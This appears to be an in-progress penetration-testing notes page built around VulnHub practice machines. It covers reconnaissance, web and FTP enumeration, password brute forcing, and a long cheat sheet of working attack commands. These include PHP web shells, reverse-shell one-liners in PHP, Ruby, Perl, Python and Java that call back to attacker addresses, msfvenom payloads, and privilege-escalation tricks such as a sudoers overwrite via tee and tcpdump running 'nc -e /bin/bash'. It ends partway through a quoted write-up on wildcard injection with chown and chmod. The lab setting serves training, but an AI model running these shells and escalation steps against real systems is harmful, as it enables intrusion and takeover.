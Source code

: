 Learning from the field : Vulnhub
==================================

This post (Work in Progress) mark downs the learning gathered by doing the vulnerable machines provided by the VulnHub. Once you download the virtual machine from the website and run it in VMware or Virtual Box,
below steps could be followed to find the vulnerabilties.

Finding the IP address
**************************

* Netdiscover: an active/passive arp reconnaissance tool

 ::

   netdiscover [options] 
   -i interface : The network interface to sniff and inject packets. 
   -r range : Scan a given range instead of auto scan.

   Example: 
   netdiscover -i eth0/wlan0/vboxnet0/vmnet1 -r 192.168.1.0/24 
	
 Interface name for Virtualization Software

 * Virtualbox : vboxnet 
 * Vmware     : vmnet 

* Nmap: Network exploration tool and security / port scanner 

 ::

   nmap [Scan Type] [Options] {target specification} 
   -sP/-sn Ping Scan -disable port scan 

   Example: nmap -sP/-sn 192.168.1.0/24

Port Scanning
**************************** 
	
Port scanning provides a large amount of information on open services and possible exploits that target these services. Two options

* Unicornscan: port scanner that utilizes it’s own userland TCP/IP stack, which allows it to run a asynchronous scans. Faster than nmap and can scan 65,535 ports in a relatively shorter time frame. 

 ::  

   unicornscan [options] X.X.X.X/YY:S-E 
     -i, --interface : interface name, like eth0 or fxp1, not normally required 
     -m, --mode : scan mode, tcp (syn) scan is default, U for udp T for tcp \`sf' for tcp connect scan and A for arp for -mT you can also specify tcp flags following the T like -mTsFpU for example that would send tcp syn packets with (NO Syn\|FIN\|NO Push\|URG)
     Address ranges are cidr like 1.2.3.4/8 for all of 1.?.?.?, if you omit the cidr mask then /32 is implied. 
     Port ranges are like 1-4096 with 53 only scanning one port, a for all 65k and p for 1-1024

    example: unicornscan 192.168.1.5:1-4000 gateway:a would scan port 1 - 4000 for 192.168.1.5 and all 65K ports for gateway.

* Nmap: Network exploration tool and security / port scanner 

 ::

   nmap [Scan Type] [Options] {target specification} 

   HOST DISCOVERY:
   -sL: List Scan - simply list targets to scan 
   -sn: Ping Scan - disable port scan 
   -Pn: Treat all hosts as online -- skip host discovery

   SCAN TECHNIQUES: 
   -sS/sT/sA/sW/sM: TCP SYN/Connect()/ACK/Window/Maimon scans 
   -sU: UDP Scan -sN/sF/sX: TCP Null, FIN, and Xmas scans

   PORT SPECIFICATION: 
   -p : Only scan specified ports 
   Ex: -p22; -p1-65535; -p U:53,111,137,T:21-25,80,139,8080,S:9

   SERVICE/VERSION DETECTION: 
   -sV: Probe open ports to determine service/version info

   OUTPUT: 
   -oN/-oX/-oS/-oG : Output scan in normal, XML,Output in the three major formats at once 
   -v: Increase verbosity level (use -vv or more for greater effect)

   MISC: -6: Enable IPv6 scanning -A: Enable OS detection, version detection, script scanning, and traceroute


 As unicornscan is so fast, it makes sense to use it for scanning large networks or a large number of ports. The idea is to use unicornscan to scan all ports, and make a list of those ports that are open and pass them to nmap for service detection. superkojiman has written a script for this available at `GitHub <https://github.com/superkojiman/onetwopunch>`_.

When portscanning a host, you will be presented with a list of open ports. In many cases, the port number tells you what application is running. Port 25 is usually SMTP, port 80 mostly HTTP. However, this is not always the case, and especially when dealing with proprietary protocols running on non-standard ports you will not be able to determine what application is running.

By using **amap**, we can identify if any SSL server is running on port 3445 or some oracle listener on port 23. Also, it will actually do an SSL connect if you want and then try to identify the SSL-enabled protocol! One of the VM in vulnhub was running http and https on the same port.

::

  amap -A 192.168.1.2 12380 amap v5.4 (www.thc.org/thc-amap) started at 2016-08-10 05:48:09 - APPLICATION MAPPING mode
  Protocol on 192.168.1.2:12380/tcp matches http 
  Protocol on 192.168.1.2:12380/tcp matches http-apache-2 
  Protocol on 192.168.1.2:12380/tcp matches ntp 
  Protocol on 192.168.1.2:12380/tcp matches ssl
  Unidentified ports: none.
  amap v5.4 finished at 2016-08-10 05:48:16


Listen to the interface
**************************** 
We should always listen to the local interface on which the VM is hosted such as vboxnet0 or vmnet using wireshark or tcpdump. Many VMs send data randomly, for example, In one of the VM, it does the arp scan and sends a SYN packet on the port 4444, if something is listening on that port, it send the data.

:: 

  18:02:04.096292 IP 192.168.56.101.36327 > 192.168.56.1.4444: Flags [S], seq 861815232, win 16384, options [mss 1460,nop,nop,sackOK,nop,wscale 3,nop,nop,TS val 4127458640 ecr 0], length 0
  18:02:04.096330 IP 192.168.56.1.4444 > 192.168.56.101.36327: Flags [R.], seq 0, ack 861815233, win 0, length 0
  18:02:04.098567 ARP, Request who-has 192.168.56.2 tell 192.168.56.101, length 28
  18:02:04.098584 ARP, Request who-has 192.168.56.2 tell 192.168.56.101, length 28
  18:02:04.100756 ARP, Request who-has 192.168.56.3 tell 192.168.56.101, length 28
  18:02:04.100773 ARP, Request who-has 192.168.56.3 tell 192.168.56.101, length 28
  18:02:04.096292 IP 192.168.56.101.36327 > 192.168.56.1.4444: Flags [S],

On listening on the port 4444, we recieve a base64 encoded string

.. code :: bash

  nc -lvp 4444
  listening on [any] 4444 …
  192.168.56.101: inverse host lookup failed: Unknown host
  connect to [192.168.56.1] from (UNKNOWN) [192.168.56.101] 39519
  0IHNpbGVuY2Ugc3Vycm91bmRpbmcgeW91Lg0KWW91IGxvb2sgZWFzdCwgdGhlbiBzb3V0aCwgdGhlbiB3ZXN0LCBhbGwgeW91IGNhbiBzZWUgaXMgYSBncmVhdCB3YXN0ZWxh


From Nothing to a Unprivileged Shell
****************************************

At this point, you would have an idea about the different services and service version running on the system.

* **searchsploit**: Exploit Database Archive Search.

 First, we need to check if the operating system is using any services which are vulnerable or the exploit is already available in the internet. For example, A vulnerable service webmin is present in one of the VM which can be exploited to extract information from the system.

 ::

   root@kali:~# nmap -sV -A 172.16.73.128
   **********Trimmed**************
   10000/tcp open  http        MiniServ 0.01 (Webmin httpd)
   |_http-methods: No Allow or Public header in OPTIONS response (status code 200)
   |_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
   | ndmp-version: 
   |_  ERROR: Failed to get host information from server
   **********Trimmed**************

 If we search for webmin in searchsploit, we will find different exploits available for it and we just have to use the correct one based on the utility and the version matching.

 ::

   root@kali:~# searchsploit webmin
   **********Trimmed**************
   Description                                                                            Path
   ----------------------------------------------------------------------------------------------------------------
   Webmin < 1.290 / Usermin < 1.220 Arbitrary File Disclosure Exploit                   | /multiple/remote/1997.php
   Webmin < 1.290 / Usermin < 1.220 Arbitrary File Disclosure Exploit (perl)            | /multiple/remote/2017.pl
   Webmin 1.x HTML Email Command Execution Vulnerability                                | /cgi/webapps/24574.txt
   **********Trimmed**************
   *Insert searchsploit -xml options *


* **Webserver Opportunities**

 If a webserver is running on the machine, we can start with running 
 
 * **whatweb** to find what server is running. Further, we can execute nikto, w3af to find any vulnerabilities. dirb to find any hidden directories.

 * **PUT Method**: Sometimes, it is also a good option to check for the various OPTIONS available on the website such as GET, PUT, DELETE etc.

  Curl command can be used to check the options available:

  .. code :: bash

    curl -X OPTIONS -v http://192.168.126.129/test/
    Trying 192.168.126.129…
    Connected to 192.168.126.129 (192.168.126.129) port 80 (#0)
    > OPTIONS /test/ HTTP/1.1
    > Host: 192.168.126.129
    > User-Agent: curl/7.47.0
    > Accept: /
    >
    < HTTP/1.1 200 OK
    < DAV: 1,2
    < MS-Author-Via: DAV
    < Allow: PROPFIND, DELETE, MKCOL, PUT, MOVE, COPY, PROPPATCH, LOCK, UNLOCK
    < Allow: OPTIONS, GET, HEAD, POST
    < Content-Length: 0
    < Date: Fri, 29 Apr 2016 09:41:19 GMT
    < Server: lighttpd/1.4.28
    <
    * Connection #0 to host 192.168.126.129 left intact

  The put method allows you to upload a file. Eventually, you can upload a php file which can work as a shell. There are multiple methods to upload the file as mentioned in `Detecting and exploiting the HTTP Put Method`_ 

####.. _"Detecting and exploiting the HTTP Put Method" http://www.smeegesec.com/2014/10/detecting-and-exploiting-http-put-method.html">Detecting and exploiting the HTTP Put Method

  The few are

  * Nmap:

   ::

     nmap -p 80 --script http-put --script-args http-put.url='/uploads/rootme.php',http-put.file='/tmp/rootme.php'

  * curl:

   ::

     curl --upload-file test.txt -v --url http://192.168.126.129/test/test.txt


   or

   :: 

     curl -X PUT -d '

 * **Wordpress**

  When running wpscan, also make sure you run --enumerate u for enumerating usernames. By default wpscan doesn't run it. Also, scan for plugins

  ::

    wpsscan
      --url       | -u <target url>       The WordPress URL/domain to scan.
      --force     | -f                    Forces WPScan to not check if the remote site is running WordPress.
      --enumerate | -e [option(s)]        Enumeration.
      option :
      	u        usernames from id 1 to 10
      	u[10-20] usernames from id 10 to 20 (you must write [] chars)
      	p        plugins
      	vp       only vulnerable plugins
      	ap       all plugins (can take a long time)
      	tt       timthumbs
      	t        themes
      	vt       only vulnerable themes
      	at       all themes (can take a long time)
      	Multiple values are allowed : "-e tt,p" will enumerate timthumbs and plugins
      	If no option is supplied, the default is "vt,tt,u,vp"

  Wordpress configuration is stored in wp-config.php. If you are able to download it, you might get username and password to database. We can also use wordpress to bruteforce password for a username 

  ::

    wpscan --url http://192.168.1.2 --wordlist /home/bitvijays/Documents/Walkthru/Mr_Robot_1/test.txt --username elliot

 * Names? Possible Usernames? Possible Passwords? 
   
  Sometimes, on visiting the webpage of the webserver (If Vulnerable machine is running any http/https webserver), you would found possible  names of the employees working in the company. Now, it is common practise to have username based on your first/last name. It can be based  on named "namemash.py" available at here which could be used to create possible usernames. However, we still have a large amount of  usernames to bruteforce with passwords. Further, if the vulnerable machine is running a SMTP mail server, we can verify if the particular username exists or not and modify namemash.py to generate usernames for that pattern.

  * Using metasploit smtp\_enum module: Once msfconsole is running, use auxiliary/scanner/smtp/smtp\_enum, enter the RHOSTS (target address) and USER FILE containing the list of probable user accounts.
  * Using VRFY command:
  * Using RCPT TO command:


* **FTP Opportunities**

 If ftp anonymous login is provided or you have login details, you can download the contents by wget, (For anonymous login user password are not required)

 ::

   wget -rq ftp://IP --ftp-user=username --ftp-password=password

* **Remote Code Execution**

 * MYSQL: If we have MYSQL Shell, we can use mysql outfile function to upload a shell.

  :: 

    echo -n "<?php phpinfo(); ?>" | xxd -ps 3c3f70687020706870696e666f28293b203f3e
    select 0x3c3f70687020706870696e666f28293b203f3e into outfile "/var/www/html/blogblog/wp-content/uploads/phpinfo.php"``

* **Reverse Shells**: Mostly taken from PentestMonkey Reverse shell cheat sheet and Reverse Shell Cheat sheet from HighOn.Coffee

 * PHP: We can create a new file say ( shell.php ) on the server containing

  :: 

    <?php system($\_GET["cmd"]); ?>

  or

  :: 

    <?php echo shell_exec($\_GET["cmd"]); ?>

  which can be accessed by

  :: 

    http://IP/shell.php?cmd=id

  or we can create a php meterpreter shell, run a exploit handler on msf, upload the payload on the server and wait for the connection.

  ::

    msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f raw -o /tmp/payload.php

  Weely also generates a webshell

  :: 

    weevely generate password /tmp/payload.php

  which can be called by

  :: 

    weevely http://192.168.1.2/location_of_payload password

  However, it wasn't as useful as php meterpreter or reverse shell.

 * PHP Trick: This code assumes that the TCP connection uses file descriptor 3. This worked on my test system. If it doesn’t work, try 4, 5, 6

  :: 

    php -r '$sock=fsockopen("192.168.56.101",1337);exec("/bin/sh -i <&3 >&3 2>&3");'

  The above can be connected by listening at port 1337 by using nc

 * Ruby:

  :: 

    ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

 * Perl:

  .. code-block :: bash 

    perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

 * Python:

  .. code-block :: bash  

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

 * Java:

  .. code-block :: bash 

    r = Runtime.getRuntime()
    p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
    p.waitFor()

 * JSP:

  .. code-block :: bash 

     msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.110.129 LPORT=4444 -f war > runme.war

 * XTerm:

  One of the simplest forms of reverse shell is an xterm session. The following command should be run on the server. It will try to connect back to you (10.0.0.1) on TCP port 6001.

  .. code-block :: bash 

    xterm -display 10.0.0.1:1


  To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001). One way to do this is with Xnest (to be run on 			your system):

  ::
 
     Xnest :1

  You’ll need to authorise the target to connect to you (command also run on your host):

  ::

    xhost +targetip

* **Spawning a TTY Shell**

 Spawning a TTY Shell and Post-Exploitation Without A TTY has provided multiple ways to get a tty shell

 .. code-block :: bash 

   python -c 'import pty; pty.spawn("/bin/sh")'

 or

 .. code-block :: bash

   python -c 'import pty; pty.spawn("/bin/bash")'

 .. code-block :: bash

   python -c 'import os; os.system("/bin/bash")'

 .. code-block :: bash

   /bin/sh -i

 .. code-block :: bash 

   perl -e 'exec "/bin/sh";'

 .. code-block :: bash

   perl: exec "/bin/sh";

 .. code-block :: bash

    ruby: exec "/bin/sh"

 .. code-block :: bash

    lua: os.execute('/bin/sh')

 (From within IRB)

 .. code-block :: bash

    exec "/bin/sh"

 (From within vi)

 .. code-block :: bash 

   :!bash

 (From within vi)

 .. code-block :: bash 

   :set shell=/bin/bash:shell

 (From within nmap)

 .. code-block :: bash 

   !sh

 Using “Expect” To Get A TTY

 .. code-block :: bash 

   $ cat sh.exp
   #!/usr/bin/expect
   # Spawn a shell, then allow the user to interact with it.
   # The new shell will have a good enough TTY to run tools like ssh, su and login
   spawn sh
   interact


 * **Brute forcing: hydra:**

  ::

    -l LOGIN or -L FILE login with LOGIN name, or load several logins from FILE
    -p PASS  or -P FILE try password PASS, or load several passwords from FILE
    -U        service module usage details
    -e nsr additional checks, "n" for null password, "s" try login as pass, "r" try the reverse login as pass

  hydra http-post-form:

  :: 

    hydra -U http-post-form

    Help for module http-post-form:
    ============================================================================
    Module http-post-form requires the page and the parameters for the web form.

    By default this module is configured to follow a maximum of 5 redirections in a row. It always gathers a new cookie from the same URL without variables. The parameters take three ":" separated values, plus optional values.

    (Note: if you need a colon in the option string as value, escape it with "\:", but do not escape a "\" with "\\".)

    Syntax:   <url>:<form parameters>:<condition string>[:<optional>[:<optional>]
    First is the page on the server to GET or POST to (URL).
    Second is the POST/GET variables (taken from either the browser, proxy, etc.
    with usernames and passwords being replaced in the "^USER^" and "^PASS^" placeholders (FORM PARAMETERS)
    Third is the string that it checks for an *invalid* login (by default)
    Invalid condition login check can be preceded by "F=", successful condition
    login check must be preceded by "S=".
    This is where most people get it wrong. You have to check the webapp what a failed string looks like and put it in this parameter!
    			The following parameters are optional:
     			C=/page/uri     to define a different page to gather initial cookies from
     			(h|H)=My-Hdr\: foo   to send a user defined HTTP header with each request
                     		^USER^ and ^PASS^ can also be put into these headers!
                     		Note: 'h' will add the user-defined header at the end
                     		regardless it's already being sent by Hydra or not.
                     		'H' will replace the value of that header if it exists, by the
                    		 one supplied by the user, or add the header at the end
    			Note that if you are going to put colons (:) in your headers you should escape them with a backslash (\).
     			All colons that are not option separators should be escaped (see the examples above and below).
     			You can specify a header without escaping the colons, but that way you will not be able to put colons
     			in the header value itself, as they will be interpreted by hydra as option separators.

    			Examples:
     			"/login.php:user=^USER^&pass=^PASS^:incorrect"
     			"/login.php:user=^USER^&pass=^PASS^&colon=colon\:escape:S=authlog=.*success"
     			"/login.php:user=^USER^&pass=^PASS^&mid=123:authlog=.*failed"
     			"/:user=^USER&pass=^PASS^:failed:H=Authorization\: Basic dT1w:H=Cookie\: sessid=aaaa:h=X-User\: ^USER^"
     			"/exchweb/bin/auth/owaauth.dll:destination=http%3A%2F%2F<target>%2Fexchange&flags=0&username=<domain>%5C^USER^&password=^PASS^&SubmitCreds=x&trusted=0:reason=:C=/exchweb"


Unprivileged shell to privileged shell
**************************************
	
* Check cron.d and see if any script is executed as root at any time and is world writeable. If so, you can use to setuid a binary with /bin/bash and use it to get root.

 Suid.c

 ::

   int main(void) {
   setgid(0); setuid(0);
   execl(“/bin/sh”,”sh”,0); }

* SUDO -l Permissions

* nmap suid shell:

 :: 

   nmap --script <(echo 'require "os".execute "/bin/sh"')

 or

 :: 

   nmap --interactive

* If tee is suid: tee is used to read input and then write it to output and files. That means we can use tee to read our own commands and add them to any_script.sh, which can then be run as root by a user. If some script is run as root, you may also run. For example, let's say tidy.sh is executed as root on the server, we can write the below code in temp.sh

 :: 

   temp.sh
   echo “milton ALL=(ALL) ALL” > /etc/sudoers” 

 or 

 ::

   chmod +w /etc/sudoers to add write properties to sudoers file to do the above

 and then

 :: 

   cat temp.sh | sudo /usr/bin/tee /usr/share/cleanup/tidyup.sh

 which will add contents of temp.sh to tidyup.sh.

* tcpdump: The “-z postrotate-command” option (introduced in tcpdump version 4.0.0).

 Create a temp.sh ( which contains the commands to executed as root )

 :: 

   id
   /bin/nc 192.168.110.1 4444 -e /bin/bash

 Execute the command

 :: 

   sudo tcpdump -i eth0 -w /dev/null -W 1 -G 1 -z ./temp.sh -Z root

 where
 
 :: 

   -C file_size : Before  writing a raw packet to a savefile, check whether the file is currently larger than file_size and, if so, close the current savefile and open a new one.  Savefiles after the first savefile will have the name specified with the -w flag, with a number after it, starting at 1 and continuing upward.  The units of file_size are millions of bytes (1,000,000 bytes, not 1,048,576 bytes).

   -W Used  in conjunction with the -C option, this will limit the number of files created to the specified number, and begin overwriting files from the beginning, thus creating a 'rotating' buffer.  In addition,it will name the files with enough leading 0s to support the maximum number of files, allowing them to sort correctly. Used in conjunction with the -G option, this will limit the number of rotated dump files that get created, exiting with status 0 when reaching the limit. If used with -C as well, the behavior will result in cyclical files per timeslice.

   -z postrotate-command Used in conjunction with the -C or -G options, this will make tcpdump run " postrotate-command file " where file is the savefile being closed after each rotation. For example, specifying -z gzip or -z bzip will compress each savefile using gzip or bzip2.

   Note that tcpdump will run the command in parallel to the capture, using the lowest priority so that this doesn't disturb the capture process.

   And in case you would like to use a command that itself takes flags or different arguments, you can always write a shell script that will take the savefile name as the only argument, make the flags &  arguments arrangements and execute the command that you want.

   -Z user 
   --relinquish-privileges=user If tcpdump is running as root, after opening the capture device or input savefile, but before opening any savefiles for output, change the user ID to user and the group ID to the primary group of user.

   This behavior can also be enabled by default at compile time.


.. Note :: More can be learn `How-I-got-root-with-sudo <https://www.securusglobal.com/community/2014/03/17/how-i-got-root-with-sudo/>`_.

* **Privilege esclation from g0tm1lk blog**
 * What "Advanced Linux File Permissions" are used? Sticky bits, SUID & GUID

  ::

    find / -perm -1000 -type d 2>/dev/null   # Sticky bit - Only the owner of the directory or the owner of a file can delete or rename here.
    find / -perm -g=s -type f 2>/dev/null    # SGID (chmod 2000) - run as the group, not the user who started it.
    find / -perm -u=s -type f 2>/dev/null    # SUID (chmod 4000) - run as the owner, not the user who started it.

    find / -perm -g=s -o -perm -u=s -type f 2>/dev/null    # SGID or SUID
    for i in `locate -r "bin$"`; do find $i \( -perm -4000 -o -perm -2000 \) -type f 2>/dev/null; done    # Looks in 'common' places: /bin, /sbin, /usr/bin, /usr/sbin, /usr/local/bin, /usr/local/sbin and any other *bin, for SGID or SUID (Quicker search)

    # find starting at root (/), SGID or SUID, not Symbolic links, only 3 folders deep, list with more detail and hide any errors (e.g. permission denied)
    find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null
 
 * Where can written to and executed from? A few 'common' places: /tmp, /var/tmp, /dev/shm

  ::

    find / -writable -type d 2>/dev/null      # world-writeable folders
    find / -perm -222 -type d 2>/dev/null     # world-writeable folders
    find / -perm -o w -type d 2>/dev/null     # world-writeable folders

    find / -perm -o x -type d 2>/dev/null     # world-executable folders

    find / \( -perm -o w -perm -o x \) -type d 2>/dev/null   # world-writeable & executable folders

 * Any "problem" files? Word-writeable, "nobody" files

  ::

    find / -xdev -type d \( -perm -0002 -a ! -perm -1000 \) -print   # world-writeable files
    find /dir -xdev \( -nouser -o -nogroup \) -print   # Noowner files


* **Unix Wildcards:**

 The below text is directly from the `here <https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt>`_.

 * Chown file reference trick (file owner hijacking)

  First really interesting target I've stumbled across is 'chown'. Let's say that we have some publicly writeable directory with bunch of PHP files in there, and root user wants to change owner of all PHP files to 'nobody'. Pay attention to the file owners in the following files list.

  :: 

    [root@defensecode public]# ls -al
    total 52
    drwxrwxrwx.  2 user user 4096 Oct 28 17:47 .
    drwx------. 22 user user 4096 Oct 28 17:34 ..
    -rw-rw-r--.  1 user user   66 Oct 28 17:36 admin.php
    -rw-rw-r--.  1 user user   34 Oct 28 17:35 ado.php
    -rw-rw-r--.  1 user user   80 Oct 28 17:44 config.php
    -rw-rw-r--.  1 user user  187 Oct 28 17:44 db.php
    -rw-rw-r--.  1 user user  201 Oct 28 17:35 download.php
    -rw-r--r--.  1 leon leon    0 Oct 28 17:40 .drf.php
    -rw-rw-r--.  1 user user   43 Oct 28 17:35 file1.php
    -rw-rw-r--.  1 user user   56 Oct 28 17:47 footer.php
    -rw-rw-r--.  1 user user  357 Oct 28 17:36 global.php
    -rw-rw-r--.  1 user user  225 Oct 28 17:35 header.php
    -rw-rw-r--.  1 user user  117 Oct 28 17:35 inc.php
    -rw-rw-r--.  1 user user  111 Oct 28 17:38 index.php
    -rw-rw-r--.  1 leon leon    0 Oct 28 17:45 --reference=.drf.php
    -rw-rw----.  1 user user   66 Oct 28 17:35 password.inc.php
    -rw-rw-r--.  1 user user   94 Oct 28 17:35 script.php

  Files in this public directory are mostly owned by the user named 'user', and root user will now change that to 'nobody'.

  :: 

    [root@defensecode public]# chown -R nobody:nobody \*.php


  Let's see who owns files now...

  :: 

     root@defensecode public]# ls -al
     total 52
     drwxrwxrwx.  2 user user 4096 Oct 28 17:47 .
     drwx------. 22 user user 4096 Oct 28 17:34 ..
     -rw-rw-r--.  1 leon leon   66 Oct 28 17:36 admin.php
     -rw-rw-r--.  1 leon leon   34 Oct 28 17:35 ado.php
     -rw-rw-r--.  1 leon leon   80 Oct 28 17:44 config.php
     -rw-rw-r--.  1 leon leon  187 Oct 28 17:44 db.php
     -rw-rw-r--.  1 leon leon  201 Oct 28 17:35 download.php
     -rw-r--r--.  1 leon leon    0 Oct 28 17:40 .drf.php
     -rw-rw-r--.  1 leon leon   43 Oct 28 17:35 file1.php
     -rw-rw-r--.  1 leon leon   56 Oct 28 17:47 footer.php
     -rw-rw-r--.  1 leon leon  357 Oct 28 17:36 global.php
     -rw-rw-r--.  1 leon leon  225 Oct 28 17:35 header.php
     -rw-rw-r--.  1 leon leon  117 Oct 28 17:35 inc.php
     -rw-rw-r--.  1 leon leon  111 Oct 28 17:38 index.php
     -rw-rw-r--.  1 leon leon    0 Oct 28 17:45 --reference=.drf.php
     -rw-rw----.  1 leon leon   66 Oct 28 17:35 password.inc.php
     -rw-rw-r--.  1 leon leon   94 Oct 28 17:35 script.php


   Something is not right... What happened? Somebody got drunk here. Superuser tried to change files owner to the user:group 'nobody', but somehow, all files are owned by the user 'leon' now. If we take closer look, this directory previously contained just the following two files created and owned by the user 'leon'.

  :: 

    -rw-r--r--.  1 leon leon    0 Oct 28 17:40 .drf.php
    -rw-rw-r--.  1 leon leon    0 Oct 28 17:45 --reference=.drf.php

  Thing is that wildcard character used in 'chown' command line took arbitrary '--reference=.drf.php' file and passed it to the chown command at the command line as an option.

  Let's check chown manual page (man chown):

  :: 

     --reference=RFILE
     use RFILE's owner and group rather than specifying OWNER:GROUP values


   So in this case, '--reference' option to 'chown' will override 'nobody:nobody' specified as the root, and new owner of files in this
		directory will be exactly same as the owner of '.drf.php', which is in this case user 'leon'. Just for the record, '.drf' is short for Dummy Reference File. :)

		To conclude, reference option can be abused to change ownership of files to some arbitrary user. If we set some other file as argument 			to the --reference option, file that's owned by some other user, not 'leon', in that case he would become owner of all files in this 			directory. With	this simple chown parameter pollution, we can trick root into changing	ownership of files to arbitrary users, and practically "hijack" files that are of interest to us.

		Even more, if user 'leon' previously created a symbolic link in that directory that points to let's say /etc/shadow, ownership of /etc/shadow would also be changed to the user 'leon'.


 * **Chmod file reference trick**

  Another interesting attack vector similar to previously described 'chown' attack is 'chmod'. Chmod also has --reference option that can be abused to specify arbitrary permissions on files selected with asterisk wildcard. Chmod manual page (man chmod):

  :: 

    --reference=RFILE    :   use RFILE's mode instead of MODE values

  Example is presented below.

  :: 

    [root@defensecode public]# ls -al
    total 68
    drwxrwxrwx.  2 user user  4096 Oct 29 00:41 .
    drwx------. 24 user user  4096 Oct 28 18:32 ..
    -rw-rw-r--.  1 user user 20480 Oct 28 19:13 admin.php
    -rw-rw-r--.  1 user user    34 Oct 28 17:47 ado.php
    -rw-rw-r--.  1 user user   187 Oct 28 17:44 db.php
    -rw-rw-r--.  1 user user   201 Oct 28 17:43 download.php
    -rwxrwxrwx.  1 leon leon     0 Oct 29 00:40 .drf.php
    -rw-rw-r--.  1 user user    43 Oct 28 17:35 file1.php
    -rw-rw-r--.  1 user user    56 Oct 28 17:47 footer.php
    -rw-rw-r--.  1 user user   357 Oct 28 17:36 global.php
    -rw-rw-r--.  1 user user   225 Oct 28 17:37 header.php
    -rw-rw-r--.  1 user user   117 Oct 28 17:36 inc.php
    -rw-rw-r--.  1 user user   111 Oct 28 17:38 index.php
    -rw-r--r--.  1 leon leon     0 Oct 29 00:41 --reference=.drf.php
    -rw-rw-r--.  1 user user    94 Oct 28 17:38 script.php

  Superuser will now try to set mode 000 on all files.

  :: 

    [root@defensecode public]# chmod 000 *

  Let's check permissions on files...

  :: 

    [root@defensecode public]# ls -al
    total 68
    drwxrwxrwx.  2 user user  4096 Oct 29 00:41 .
